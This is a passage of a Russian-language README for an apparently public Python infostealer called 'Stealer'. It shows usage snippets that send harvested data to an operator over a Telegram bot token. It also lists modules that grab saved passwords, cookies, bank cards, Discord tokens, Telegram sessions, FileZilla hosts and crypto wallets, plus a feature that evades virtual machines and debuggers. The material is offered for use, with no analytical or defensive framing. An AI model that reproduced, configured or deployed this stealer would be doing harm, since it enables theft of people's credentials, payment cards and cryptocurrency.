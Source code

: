 12. Прекращение работы на виртуальных машинах и при попытке дебаггинга.

## Пример использования
### Стандартный
```python
from Stealer import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Определённые модули

Пример со сбором только системных данных и скриншота.
```python
from Stealer import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Дополнительные параметры

- `features` - список модулей из `Stealer.Features`:

  - `passwords` - сбор паролей.

  - `cookies` - сбор куки.

  - `cards` - сбор банковских карт.

  - `history` - сбор истории поиска.

  - `bookmarks` - сбор закладок.

  - `extensions` - сбор расширений браузера.

  - `processes` - сбор активных процессов.

  - `system` - сбор конфигурации системы.

  - `screen` - скриншот.

  - `discord` - сбор токенов Discord.

  - `telegram` – сбор сессий Telegram.

  - `filezilla` – сбор хостов FileZilla.

  - `wallets` – сбор крипто кошельков.
